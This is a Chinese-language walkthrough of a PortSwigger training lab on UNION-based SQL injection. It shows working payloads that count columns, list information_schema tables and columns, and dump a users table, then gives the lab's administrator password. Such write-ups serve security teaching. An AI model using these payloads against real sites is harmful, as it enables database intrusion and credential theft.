







# Listing the database contents on non-Oracle databases



### 目標

該購物網站的產品類別篩選器有 SQLi 漏洞，使用 UNION 攻擊來從其他表中獲取資料。

應用程式具有登入功能，資料庫中包含一個存放 usernames 與 passwords 的表，找出這張表的表名與它具有的欄位，然後透過該表的內容來獲得所有使用者的帳號與密碼，並以使用者為 `administrator` 的身份來登入該購物網站。

> [!TIP]
> Hint:
> 
> 可從 [PortSwigger 網站中的 SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) 中，查找對各種資料庫有什麼不同的寫法。

---

### Solution

隨意選擇一種類別標籤，並使用 `UNION` 語句獲取欄位數量：

```sql
Pets' UNION SELECT NULL,NULL--
```


> 有兩欄位。

將類別清空改為 0，如此只會傳回想要嘗試獲取的資訊，隱藏該類別的文章：

```sql
0' UNION SELECT NULL,NULL--
```



> 由目前注入的語句來看，因為 `--` 後面沒加空格，因此也能判定此資料庫絕對不是 MySQL。

---

選擇 `table_name` 取得所有表名：

```sql
0' UNION SELECT NULL,table_name FROM information_schema.tables--
```



有非常多表，經過猜測並一一嘗試後，在 `users_rfclnx` 這張表找到欄位有帳號與密碼：

```sql
0' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_rfclnx'--
```



從表 `users_rfclnx` 選取帳號與密碼兩欄位：

```sql
0' UNION SELECT username_bblgbb,password_ezhdgh FROM users_rfclnx--
```



點選網站有上角的 `My account`，使用剛獲取的憑證進行登入，帳號 `administrator`、密碼 `dwe6w4em5t7o5niofw0w`：
